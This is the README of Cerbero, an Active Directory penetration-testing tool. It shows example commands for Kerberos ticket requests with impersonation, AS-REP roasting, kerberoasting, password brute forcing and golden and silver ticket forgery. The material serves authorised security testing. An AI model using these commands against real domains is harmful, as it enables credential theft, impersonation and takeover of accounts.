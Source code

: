 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo build --release
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!!
```

Ask TGS:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --spn ldap/under.world
```

Perform S4u2self:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus
```

Perform S4u2proxy:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus --spn ldap/under.world
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
Allows to `convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --aes-256 fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --ntlm 29f9ab984728cc7d18c8497c9ee76c77 --spn cifs/styx,under.world
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
cerbero kerberoast -s services.txt --realm under.world --user Hades -p IamtheKingofD34d!!
```
To get a list of services you could use `ldapsearch`:
```shell
ldapsearch -b "dc=under,dc=world" -w IamtheKingofD34d!! -D "Hades@under.world" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" servicePrincipalName | grep servicePrincipalName: | cut -d ' ' -f 2 | tee services.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command

```shell
cerbero list hades.ccache
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi) 

<!-- cargo-sync-readme end -->
